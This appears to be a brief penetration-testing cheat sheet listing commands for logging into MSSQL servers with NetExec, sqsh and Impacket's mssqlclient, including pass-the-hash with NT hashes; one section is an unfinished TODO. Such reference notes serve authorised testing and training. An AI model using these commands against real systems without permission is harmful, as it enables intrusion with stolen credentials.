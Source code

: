 # Unix Shell

## 01 - NetExec

`$ netexec mssql <IP>/<CIDR> -u "<username>" -H "<nt_hash>" [-d <domain_name> | --local-auth]`

## 02 - Sqsh

TODO: Fill in this info

`$ pth-sqsh`

## 03 - Impacket

`$ mssqlclient.py -port 1433 -windows-auth <domain_name>/<username>:<password>@<IP>`

- Pass the Hash

`$ mssqlclient.py -port 1433 -windows-auth <domain_name>/<username>@<IP> -hashes :<nt_hash>`